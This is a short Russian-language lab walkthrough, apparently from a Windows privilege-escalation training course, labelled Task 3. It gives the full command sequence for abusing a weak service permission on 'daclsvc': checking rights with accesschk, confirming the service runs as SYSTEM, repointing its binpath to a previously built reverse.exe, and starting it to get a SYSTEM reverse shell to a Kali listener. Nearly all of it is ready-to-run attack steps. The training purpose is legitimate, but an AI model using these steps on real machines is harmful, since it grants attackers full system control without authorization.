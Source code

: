 # Задача 3: Проверка разрешений пользователя на сервис **daclsvc** 🔍🔑

---

## Описание
В этой задаче вам нужно использовать `accesschk.exe`, чтобы проверить разрешения учетной записи **"user"** на сервис **"daclsvc"**.

---

### Проверка разрешений:
1. Выполните следующую команду:
   `"C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc"`
   
   Обратите внимание, что учетная запись **"user"** имеет разрешение на изменение конфигурации сервиса (SERVICE_CHANGE_CONFIG). ⚙️

---

### Запрос информации о сервисе:
2. Затем запросите информацию о сервисе и запишите, что он работает с привилегиями SYSTEM (SERVICE_START_NAME):
   `"sc qc daclsvc"`

---

### Модификация конфигурации сервиса:
3. Измените конфигурацию сервиса и установите `BINARY_PATH_NAME` (binpath) на исполняемый файл `reverse.exe`, который вы создали ранее:
   `"sc config daclsvc binpath= \"C:\PrivEsc\reverse.exe\""`

---

### Запуск обратной оболочки:
4. Настройте слушателя на Kali и затем запустите сервис, чтобы запустить обратную оболочку с привилегиями SYSTEM:
   `"net start daclsvc"`

---

### Важно! ⚠️
Эти шаги помогают получить доступ к привилегированным оболочкам с использованием уязвимости в конфигурации сервиса. Не забывайте быть внимательными при работе с привилегиями системы! 🔒
